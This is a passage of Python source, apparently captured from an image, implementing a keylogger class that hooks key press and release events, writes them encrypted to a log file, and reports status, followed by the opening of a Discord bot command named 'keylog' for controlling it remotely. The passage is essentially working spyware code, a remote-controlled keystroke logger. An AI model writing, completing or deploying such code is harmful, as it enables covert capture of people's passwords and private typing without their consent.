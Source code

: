 ```python
        }
        
        with self.log_lock:
            with open(self.log_file, "a") as f:
                if self.encryption_enabled:
                    encrypted = self.cipher.encrypt(json.dumps(log_entry).encode()).decode()
                    f.write(f"{encrypted}\n")
                else:
                    f.write(f"{json.dumps(log_entry)}\n")
    
    def callback_press(self, event):
        if self.is_running:
            self._process_event(event, "key_press")
    
    def callback_release(self, event):
        if self.is_running:
            self._process_event(event, "key_release")
    
    def start(self, encryption=True):
        """Start keylogger with encryption option"""
        if self.is_running:
            return False
            
        self.encryption_enabled = encryption
        if encryption and not hasattr(self, 'cipher'):
            self.cipher = Fernet(self.encryption_key)
            
        self.is_running = True
        self.hook_ids.append(keyboard.on_press(self.callback_press))
        self.hook_ids.append(keyboard.on_release(self.callback_release))
        return True
    
    def stop(self):
        """Stop keylogger"""
        if not self.is_running:
            return False
            
        self.is_running = False
        for hook_id in self.hook_ids:
            keyboard.unhook(hook_id)
        self.hook_ids = []
        return True
    
    def get_status(self):
        """Get current status"""
        log_size = 0
        if os.path.exists(self.log_file):
            log_size = os.path.getsize(self.log_file)
            
        return {
            "is_running": self.is_running,
            "log_file": self.log_file,
            "log_size": log_size,
            "encryption_enabled": self.encryption_enabled,
            "encryption_key": base64.urlsafe_b64encode(self.encryption_key).decode()[:10] + "..." 
        }

# Discord Bot Command Implementation
@bot.hybrid_command(name="keylog", description="Control the advanced keylogger")
async def keylog(ctx, action: str, encryption: str = "enabled"):
    if not await bot.authorize(ctx):
        return
    
```